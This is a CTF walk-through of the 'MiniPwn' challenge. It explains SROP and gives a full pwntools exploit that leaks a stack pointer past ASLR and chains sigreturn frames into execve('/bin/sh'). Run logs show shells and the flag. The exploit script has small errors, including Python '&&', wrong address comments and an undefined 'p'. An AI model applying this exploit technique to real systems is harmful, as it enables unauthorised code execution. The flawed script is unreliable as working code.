

# TMHC: MiniPwn Walk-through

This one's just as much for me as it is for you. They say you don't truly understand something until
you're able to teach it to someone else. So here we go!

The Many Hats Club had a CTF on HackTheBox a few weekends ago that re-ignited a previous passion for 
exploit development. The reason it got me interested was that it required a new exploit technique
of which I'd not yet heard, Signal Return Oriented Programming. Check out 
[this whitepaper](https://pdfs.semanticscholar.org/5c48/3c22bf9a761d6b900b6acdbad72b321f39ee.pdf)

## What's SROP/SIGROP?
Basically, if you can control the Accumulator Register (AX) and reach a SYSCALL instruction,
you can send a SIGRET signal to the process. You can read more about 
[Signals here.](http://man7.org/linux/man-pages/man7/signal.7.html) 
When a process receives a SIGRET signal, it takes the current stack frame and writes it to the 
registers. If you're controlling the stack, then you can ostensibly create your own set of registers 
in a manner that places you in a more advantageous position during your exploit.

## The Challenge
The challenge was a very small binary, hand written in assembly. The stack was not executable (NX),
and even if you had gadgets, there's nowhere all that useful to jump.


Here's the `strace`:

```bash
❯❯ strace ./pwn
execve("./pwn", ["./pwn"], 0x7ffcfe4a4a50 /* 57 vars */) = 0
read(0, AAAAAAA
"AAAAAAA\n", 300)               = 8
write(1, "AAAAAAA\n", 8AAAAAAA
)                = 8
exit(1)                                 = ?
```

So it just echos back what we type at it.

Here's the complete assembly (with comments by me):

```x86asm

_start:           ; 0x400000
push   0x40101e   ; push _write
mov    edi,0x0    ; 1st arg to the upcoming syscall. read from FD 0, STDIN
mov    rsi,rsp    ; copy stack pointer to RSI, the 2nd argument for the upcoming syscall
sub    rsi,0x8    ; subtract 0x8 from where the stack starts; the buffer will be 8 bytes
mov    edx,0x12c  ; use 300 as the 3rd argument to the upcoming read syscall, count
mov    eax,0x0    ; set the first argument to 0, which is sys_READ
syscall           ; get user input; IMPORTANT: return value (input length) goes to RAX
ret                                                                                               
                                                                                                  
_write:           ; 0x40101e
push   0x40103c   ; push _exit
mov    rsi,rsp    ; 2nd arg, buffer location
sub    rsi,0x8    ; move back 8 bytes
mov    edx,0x8    ; how much data to write, 8 bytes
mov    eax,0x1    ; which syscall to run; 1 = sys_WRITE
mov    edi,0x1    ; which descriptor to write to; 1 = STDOUT
syscall           ; write buffer to stdout
ret                                                                                               
                                                                                                  
_exit:            ; 0x40103c
mov    eax,0x3c   ; 60; exit syscall
syscall           ; exit
```

That's it. 

So let's get into an overview of what our solution is going to entail. The first thing to know is
that our buffer is 8 bytes. We can determine that by either looking at the assembly or with the
traditional pattern create/query. We'll also need know the binary's security measures. The remote
box has ASLR enabled, which we would have found later; we'll proceed with that as a given.


```bash
pwndbg> checksec
[*] '/home/terrance/Dropbox/Blogs/security/content/post/minipwn/pwn/pwn'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

We can take two paths from here. We can SIGROP an mprotect syscall to re-enable execution on the
stack. Doing so would enable execution of shellcode from the stack again, defeating NX. Or we can
SIGROP to the execve syscall and spawn `/bin/sh`. Mprotect is the easier path, and is the intended
solution. It wasn't the path I initially took.

Being the glutton for punishment that I am, let's continue with the execve syscall route.

The return value from `SYS_read` is the size of bytes read and is stored at `RAX`. `RAX` also
happens to be where the `syscall` instruction looks to see which syscall function it should be
running. `SYS_sigreturn` is syscall 15 according to 
[this handy syscall table.](https://filippo.io/linux-syscall-table/)

Here's our plan:
1. Overwrite the stack and force an address leak.
    - Calculate some consistent known offset since ASLR is on.
2. Restart the program without quitting, setting it back to a vulnerable state
3. Overwrite again, this time setting up a read `SYS_sigreturn`
    - Since we can hand-write the stack frame that ends up in the registers, we'll set `$RSP` to our
  known offset. Additionally, we'll set up a `SYS_read` in the frame so we can continue sending the
  binary some more data.
4. Set up  our buffer for more control flow and add another SIGRET frame, this time for `SYS_execve`
5. Trigger the SIGRET by sending 15 bytes
6. Maybe shell


## The Exploit

I took the opportunity, as a supplemental exercise, to also get very familiar with the `pwntools`
exploit-writing library for Python. I'll be trying to use as few 'magic' numbers as possible and
use the library to its fullest potential.

This is the skeleton I'm going to start with:

```python

#!/usr/bin/env python

from pwn import *
import sys

BIN = "./pwn"

def setup_pipe(gdb_commands):
    if len(sys.argv) < 2:
        log.error("Run mode missing: [debug, local, remote <server> <port>]")

    context.clear(
        arch="amd64",
        terminal=["tmux", "splitw", "-h"]
    )

    opt = sys.argv[1]
    if opt == "debug":
        context.log_level = "debug",
        io = gdb.debug(BIN, gdb_commands)
    elif opt == "remote" && len(sys.argv) == 4:
        HOST, PORT = sys.argv[2], sys.argv[3]
        io = remote(HOST, PORT)
    elif opt == "local":
        io = process(BIN)
    else:
        log.error("Run mode missing: [debug, local, remote <server> <port>]")

    log.info("Run mode: {}".format(opt))
    return io

if __name__ == "__main__":

    commands = """
    b _start
    """
    elf, rop = ELF(BIN), ROP(BIN)
    io  = setup_pipe(commands)

    """
    EXPLOIT CODE GOES HERE
    """
```


We can start by declaring some constants that we'll need for the exploit. Let's get some info first:

```bash
pwndbg> disass _start
Dump of assembler code for function _start:
   0x0000000000401000 <+0>:     push   0x40101e
   0x0000000000401005 <+5>:     mov    edi,0x0
   0x000000000040100a <+10>:    mov    rsi,rsp
   0x000000000040100d <+13>:    sub    rsi,0x8
   0x0000000000401011 <+17>:    mov    edx,0x12c
   0x0000000000401016 <+22>:    mov    eax,0x0
   0x000000000040101b <+27>:    syscall
   0x000000000040101d <+29>:    ret

pwndbg> disass _write
Dump of assembler code for function _write:
   0x000000000040101e <+0>:     push   0x40103c
   0x0000000000401023 <+5>:     mov    rsi,rsp
   0x0000000000401026 <+8>:     sub    rsi,0x8
   0x000000000040102a <+12>:    mov    edx,0x8
   0x000000000040102f <+17>:    mov    eax,0x1
   0x0000000000401034 <+22>:    mov    edi,0x1
   0x0000000000401039 <+27>:    syscall
   0x000000000040103b <+29>:    ret
```


From here, we generate our address constants:

```python
syscall   = elf.sym._start + 27 # 0x401016
ret2read  = elf.sym._start + 22 # 0x401016
ret2write = elf.sym._write + 17 # 0x40102f
_start    = elf.sym._start + 5  # we want to skip pushing _write to the stack

OFFSET = 8
SIGRET_FRAME_SIZE = 248
SLEEP = 1
```

Building our first overwrite of the stack:

```python
"""
Overflow the next two return addresses:

First, ret to (mov eax,0x1) to cause a write syscall. Doing this
makes execution skip the part of _write that sets the output length
to just 8. This makes it print the 0x12c bytes set at 401011,
causing pointer leaks

Next, ret to _start+5 to skip pushing _write at 0x401000. This also
sets up the binary to begin listening again with an 8 byte buffer,
putting it back into an overflowable/vulnerable state.
"""
log.info("Sending initial payload to leak pointers")
data = b"A" * OFFSET
data += p64(ret2write) # Leak pointers
data += p64(_start)    # Reset
p.send(data)
```


Now we deal with the data that we've forced the application to echo back to us:

```python
"""
The 4th giant-word is an environment variable pointer.
'&' it with 0xfffffffffffff000 to find the beginning of the page.
This is our new, known base/offset that remains consistent between
runs, even with ASLR
"""
leaks = p.recv()
pointer = leaks[3*8:4*8]
stack_leak = u64(pointer) & 0xfffffffffffff000
log.warn('leaked stack: ' + hex(stack_leak))
```

We can create a function that will generate us our SIGRET frame to keep the code a little cleaner:

```python

"""
Build a SIGRETURN SYS_read frame that reads 2000 bytes.
"""
def sigreturn_read(read_location):
    frame = SigreturnFrame()
    frame.rax = constants.SYS_read
    frame.rdi = constants.STDIN_FILENO
    frame.rsi = read_location
    frame.rdx = 2000
    frame.rsp = read_location
    frame.rip = syscall
    return bytes(frame)

"""
Overflow again thanks to the SYS_read we setup from the 1st payload

First, reset binary to into a read state.  To this read, we will
soon pass 15 bytes to manipulate RAX (read return value of # bytes read)

Next, ret to a syscall to trigger the SIGRETURN
Also, send the SIGRETURN Frame 
"""
log.info("Sending stage 2 which seeds the first SIGRETURN frame")
pause(SLEEP)
data = b"A" * OFFSET
data += p64(ret2read)
data += p64(syscall)
data += sigreturn_read(stack_leak)
p.send(data)
```

Now we trigger the SIGRET by sending 15 bytes (remember the SIGRET number is 15 and the return
value of `SYS_read` is the number of bytes read, and this return value gets stored in RAX)

```python
"""
Trigger SIGRETURN by sending 15 bytes to the binary when it's
reading, which sets RAX to 15. When execution meets a syscall
instruction, the frame above will replace all the register values
"""
log.info("Triggering the first SIGRETURN by sending 15 junk bytes")
pause(SLEEP)
p.send(b'B' * constants.SYS_rt_sigreturn)
```

The SIGRET frame we built earlier has now been pulled into the registers. 

```
rax = 0 # SYS_read
rdi = 0 # STDIN File Descriptor
rsi = our calculated page-start address
rdx = 2000 # arg to sys_READ for how many bytes to read
rsp = our calculated page-start address
rip = our syscall address
```

Execution continues to a `syscall` instruction, because that's where we set RIP in our frame. Given
our now known stack-base, we can now build out our own stack and track our own offsets. We'll set
up another SYS_read which will read 15 bytes to set RAX and then ret to a syscall to trigger the
SIGRETURN. We can calculate where the end of the payload (previous 2 instruction plus our custom
stack frame) will be. Once triggered, `/bin/sh` will be at RSP.

```python 
"""
Build a SYS_execve SIGRETURN frame that will execute /bin/sh
The binsh address in the stack will eventually hold '/bin/sh'
followed by a pointer to null, followed by a pointer to binsh's
pointer, in order to satisfy execve's second argument, and array
of args, hence the +16
execve(*program, *args{program, null}, null)
"""
def sigreturn_execve(binsh_addr):
    frame = SigreturnFrame()
    frame.rax = constants.SYS_execve
    frame.rdi = binsh_addr
    frame.rsi = binsh_addr + 16
    frame.rdx = 0
    frame.rip = syscall
    return frame


binsh = b"/bin/sh\x00"

payload  = p64(ret2read)
payload += p64(syscall)

end_of_payload = stack_leak + len(payload) + SIGRET_FRAME_SIZE + len(binsh)

frame = sigreturn_execve(end_of_payload)
frame.rsp = end_of_payload
payload += bytes(frame)
# ^ 'end_of_payload'
payload += binsh
payload += b"\x00" * 8
payload += p64(end_of_payload)

"""
Reset to vuln state
"""
log.info("Resetting the binary to a vulnerable read state and sending 2nd SIGRETURN execve payload")
p.send(p64(ret2read))
pause(SLEEP)
p.send(b"A" * OFFSET + payload)

"""
Send 15 bytes to trigger SIGRETURN again, executing /bin/sh
"""
log.info("Triggering the last SIGRETURN")
pause(SLEEP)
p.send(b'C' * constants.SYS_rt_sigreturn)
p.interactive()

```

That should be all we need. When we run our final payload, we get:


```bash
❯❯ python minipwn.py local
[*] '/home/terrance/Dropbox/Blogs/security/content/post/minipwn/pwn/pwn'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './pwn': pid 3587974
[*] Sending initial payload to leak pointers
[!] leaked stack: 0x7ffff9555000
[*] Sending stage 2 which feeds the first SIGRETURN frame
[+] Waiting: Done
[*] Triggering the first SIGRETURN by sending 15 junk bytes
[+] Waiting: Done
[*] Resetting the binary to a vulnerable read state and sending 2nd SIGRETURN execve payload
[+] Waiting: Done
[*] Triggering the last SIGRETURN
[+] Waiting: Done
[*] Switching to interactive mode
$ whoami
terrance
$
```

Works on my machine! Well, let's test it "remote". Here's the CTF's Dockerfile which will set up
the challenge for remote pwning. You can tie the binary together with netcat or socat as well. 

```dockerfile
FROM alpine:latest

RUN mkdir /app
COPY pwn /app/
COPY flag.txt /app/
RUN chmod +x /app/pwn
RUN adduser imth -D -s $(which nologin)
EXPOSE 1337
USER imth
WORKDIR /app/
ENTRYPOINT ["nc", "-lkvp", "1337", "-e", "/app/pwn"]
```

Run with:

```bash
docker build -t minipwn .
docker run -p 1337:1337 --rm minipwn
```

Then test the exploit remotely:

```bash
❯❯ python minipwn.py remote 172.17.0.1 1337
[+] Opening connection to 172.17.0.1 on port 1337: Done
[*] Run mode: remote
[+] Opening connection to 172.17.0.1 on port 1337: Done
[*] Run mode: remote
[*] Sending initial payload to leak pointers
[!] leaked stack: 0x7ffc178a6000
[*] Sending stage 2 which feeds the first SIGRETURN frame
[+] Waiting: Done
[*] Triggering the first SIGRETURN by sending 15 junk bytes
[+] Waiting: Done
[*] Resetting the binary to a vulnerable read state and sending 2nd SIGRETURN execve payload
[+] Waiting: Done
[*] Triggering the last SIGRETURN
[+] Waiting: Done
[*] Switching to interactive mode
$ id
uid=1000(imth) gid=1000(imth)
$ cat flag.txt
TMHC{h4v3_y0u_h34rd_0f_SROP}
$
```

## Conclusion

Hopefully that was clear. I know I'll be referring back to this when I run into a similar problem
again during a CTF. I've provided the challenge binary, commented exploit script, Dockerfile, and
flag file in an archive [here](minipwn.tar.gz)

The official binaries, write-up and solution script using Mprotect can be found here 
https://github.com/TheManyHatsClub-CTF/TheManyHatsClubCTF/tree/master/2019/pwn/miniPWN

If you see any errors or have suggestions on better ways to explain something in the post, please
let me know. This was a learning experience for me as well as an attempt to share newly acquired
knowledge.
